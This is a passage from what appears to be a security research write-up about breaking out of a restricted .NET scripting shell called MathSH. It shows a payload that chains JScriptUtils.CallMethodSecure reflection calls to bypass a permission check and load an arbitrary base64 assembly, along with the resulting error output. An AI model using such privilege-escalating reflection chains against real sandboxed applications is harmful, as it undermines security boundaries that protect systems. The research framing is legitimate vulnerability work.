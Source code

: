 Some tooling minimized the effort to create such payloads, but after all, it
was quite confusing. If we only had a way to store `System.Object` elements in
order to reuse them later on...  
The method `memset` was promising, but at this point, we figured it would be
way better to load our own assemblies.  
We will explore that in the next section.

## Loading an assembly

To load an assembly, we want to call the `Assembly.Load` function.  
If we try to call this method directly, it will fail because we do not have
the reflection permission:

```  
MathSH>
__global__.System.Reflection.Assembly.Load(__global__.System.Convert.FromBase64String("...some
assembly as base64..."))  
Request for the permission of type
'System.Security.Permissions.ReflectionPermission, mscorlib, Version=4.0.0.0,
Culture=neutral, PublicKeyToken=b77a5c561934e089' failed.  
```

But we can use the trick from the previous section to call that function with
elevated privileges:

```  
MathSH>
__global__.JScriptRunner.JScriptUtils.CallMethod(__global__.JScriptRunner.JScriptUtils.GetMethod(__global__.JScriptRunner.JScriptUtils.FindType("JScriptRunner.JScriptUtils",true),"CallMethodSecure",true,true,true,array(__global__.JScriptRunner.JScriptUtils.FindType("System.Reflection.Assembly",true),"Load",true,array(__global__.JScriptRunner.JScriptUtils.FindType("System.Byte[]",true)))),this,array(__global__.JScriptRunner.JScriptUtils.FindType("System.Reflection.Assembly",true),"Load",true,array(__global__.System.Convert.FromBase64String("...some
assembly as base64..."))))

System.Reflection.TargetInvocationException: Exception has been thrown by the
target of an invocation. ---> System.Reflection.TargetInvocationException:
Exception has been thrown by the target of an invocation. --->
System.Security.SecurityException: Request failed.  
  at System.Reflection.RuntimeAssembly.nLoadImage(Byte[] rawAssembly, Byte[]
rawSymbolStore, Evidence evidence, StackCrawlMark& stackMark, Boolean
fIntrospection, Boolean fSkipIntegrityCheck, SecurityContextSource
securityContextSource)  
  at System.Reflection.Assembly.Load(Byte[] rawAssembly)  
  --- End of inner exception stack trace ---  
  ...  
  at JScriptRunner.JScriptUtils.CallMethodSecure(Object targetObject, String
name, Boolean case_sensitive, Object[] args)  
  ...  
```

Partial success: it is no longer the reflection permission that prevents us
from loading an assembly.  
But there is still an issue: the request to load the assembly fails!
